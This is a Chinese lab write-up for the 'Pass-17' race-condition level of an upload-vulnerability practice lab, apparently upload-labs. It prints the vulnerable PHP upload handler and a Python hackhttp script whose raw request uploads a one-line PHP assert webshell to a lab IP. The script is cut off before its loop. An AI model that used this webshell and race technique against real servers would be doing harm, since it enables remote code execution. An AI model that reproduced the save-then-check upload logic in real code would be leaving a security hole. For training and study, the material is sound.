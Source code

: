 ## Pass-17 条件竞争

```php
$is_upload = false;
$msg = null;

if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错！';
    }
}
```

条件竞争：先将文件上传到服务器，然后判断文件后缀是否在白名单里，如果在则重命名，反之删除，因此我们可以上传3.php只需要在它删除之前访问即可。

思路一：这里可以利用burp的intruder模块不断上传，然后我们不断的访问刷新该地址即可。

思路二：首先pip install hackhttp安装hackhttp模块，然后运行下面的Python脚本即可。在运行的同时连接webshell。
Python脚本如下

```python
import hackhttp
from multiprocessing.dummy import Pool as ThreadPool

def upload(lists):
    hh = hackhttp.hackhttp()
    raw = """POST /Pass-17/index.php HTTP/1.1
Host: 192.168.160.141
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.160.141/Pass-17/index.php
Cookie: pass=17
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------6696274297634
Content-Length: 341

-----------------------------6696274297634
Content-Disposition: form-data; name="upload_file"; filename="3.php"
Content-Type: application/octet-stream

<?php assert($_POST["LandGrey"])?>
-----------------------------6696274297634
Content-Disposition: form-data; name="submit"

上传
-----------------------------6696274297634--
"""
```